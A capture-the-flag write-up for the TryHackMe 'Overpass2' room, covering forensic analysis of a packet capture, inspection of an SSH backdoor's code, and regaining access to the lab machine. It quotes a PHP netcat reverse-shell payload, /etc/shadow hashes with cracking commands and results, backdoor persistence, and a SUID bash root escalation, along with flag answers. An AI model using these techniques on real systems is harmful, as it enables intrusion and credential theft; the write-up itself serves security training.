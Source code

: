 ```
Target Name: Overpass2
```

```
Task 1: Forensics - Analyse the PCAP
```

```
Task 1.1: What was the URL of the page they used to upload a reverse shell? => /development/
```
1. To solve this let's download the pcap file and investigate the packets captured by the team.
2. On investigating a GET request we can see that a /development/ hosts an upload form where a file could be uploaded.
3. There is a POST request to /development/upload.php where we can see that a shell file was uploaded with the name payload.php.

```
Task 1.2: What payload did the attacker use to gain access? => <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
1. So it is easy to check the POST request going to /development/upload.php.
2. Right-click on the POST request log and select follow => HTTP Stream.
3. The payload is mentioned there as value to the *Payload.php*

```
Task 1.3: What password did the attacker use to privesc? => whenevernoteartinstant
```
1. Further investigating the TCP packets by using follow => TCP Stream we come to know that attacker executed a *ls -al* command and found a file with name *.overpass* in `/var/www/html/development/uploads`
2. Next the attacker accessed the file using the cat command and the file carried the password for the user James.
3. The password was *whenevernoteartinstant*
4. Next using the password the attacker executed a command *sudo -l*

```
Task 1.4: How did the attacker establish persistence? => https://github.com/NinjaJc01/ssh-backdoor
```
1. Still following the TCP packets we came across that user executed a cat command on */etc/shadow*
2. The attacker found the following users' passwords for which could be Brute Forced.
```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
``` 
3. Next the attacker executed *git clone https://github.com/NinjaJc01/ssh-backdoor* to establish persistence

```
Task 1.5: Using the *fasttrack* wordlist, how many of the system passwords were crackable? =>
```

1. To do this let's download the *fasttrack* wordlist from `https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt`
2. Next we will save the users hash found in `/etc/shadow` file and use John the ripper to get the plain text password of the users.
3. The passwords were easy to crack and we could crack *4* out of *5* user's passwords.
```
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secuirty3        (paradox)
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
4g 0:00:00:00 DONE (2021-12-21 00:12) 4.444g/s 246.6p/s 1128c/s 1128C/s admin..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```
Task 2:  Research - Analyse the code
```

```
Task 2.1: What's the default hash for the backdoor? => bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```
1. check the main.go file from the ss-backdoor git repo we downloaded earlier the hash is mentioned in it.

```
Task 2.2: What's the hardcoded salt for the backdoor? => 1c362db832f3f864c8c2fe05f2002a05
```
1. In the ssh-backdoor repo the main.go file holds the salt, it can be found defined in *passwordHandler* function.

```
Task 2.3: What was the hash that the attacker used? - go back to the PCAP for this! => 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
1. Repoen the pcapng file with wireshark and lets start looking at the TCP Stream again.
2. The attacker has cloned the ssh-backdoor repo and generated a new ssh key pair using *ssh-gen* command.
3. Next the attacker has provided executing permission to the backdoor script using chmod +x backdoor.
4. Now the attacker execute's `./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed` to get a persistance connection on port 2222 via ssh.

```
Task 2.4: Crack the hash using RockYou and a cracking tool of your choice. What's the password? => november16
```
1. For this we will be using hachcat but first, we need to understand the type of hash we are dealing with.
2. So going back to the main.go file we can see that a SHA512 hash is generated using a salt value *Check below code the hashPassword function returns a hash value that is sha512*
```
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
```
3. So let's navigate to `https://hashcat.net/wiki/doku.php?id=example_hashes` and check what mode we can use to crack the sha512 hash that has a salt value as well.
4. So we conclude we will be using mode 1710 as it best fits our requirments `1710 	sha512($pass.$salt) 	e5c3ede3e49fb86592fb03f471c35ba13e8d89b8ab65142c9a8fdafb635fa2223c24e5558fd9313e8995019dcbec1fb584146b7bb12685c7765fc8c0d51379fd:6352283260`
5. let's save the hash and salt in a file called hash and pass it to the hashcat file to crat it.
6. The formate of hash and salt should be hash:salt in the file the *:* being the seprator between both the vaules, following being the final formate
`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05`
7. Fire this command and wait for hashcat to crack the hash `hashcat -m 1710 hash /usr/share/wordlists/rockyou.txt --force`
8. Hashcat gives us the password `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16` where `november16` being the password. So now we have the password of the attacker.

```
Task 3: Attack - Get back in!
```

```
Task 3.1: The attacker defaced the website. What message did they leave as a heading? => H4ck3d by CooctusClan
```
1. Deploy the machine and navigate the website.
2. We see a message saying *H4ck3d by CooctusClan*

```
Task 3.2: Using the information you've found previously, hack your way back in!
```
1. So we know the password used by the attacker *november16* we know the username *James* and we know the attacker is using port *2222* as SSH service as the ssh-backdoor tool uses that port.
2. So let's connect to the server via ssh -p 2222 james@<ip address> pass the password and we are in.

```
Task 3.3: What's the user flag? => thm{d119b4fa8c497ddb0525f7ad200e6567}
```
1. As we have an ssh connection to the server let's navigate to */home/james* and execute ls -al
2. We have the user.txt file in the directory let's cat it and get the flag.

```
Task 3.4: What's the root flag? => thm{d53b2684f169360bb9606c333873144d}
```
1. We currently are not a root user we will need to enumerate more to escalate to root privileges.
2. Notice under */home/james* there is a file named `.suid_bash` it is shown that it is owned by *root* and we can execute it as we have the right permissions to do so `-rwsr-sr-x`
3. On further investigating the binary we come to know that it is a file that can run bash as *root* user it is in general a suid misconfiguration where a normal user can execute the binary with root privileges in our case it gives us access to bash as the root user.
4. So if you just execute the `.suid_bash` file you will have a bash shell but not as a root user.
5. The GTFO bins have a great way to exploit it and escalate our shell to *root* check `https://gtfobins.github.io/gtfobins/bash/` all we need to do is execute the `suid_bash` with a -p and get a root shell.
6. So let's execute ./suid_bash -p and bingo we have root navigate to /root and cat root.txt to grab the root flag and complete the challange.
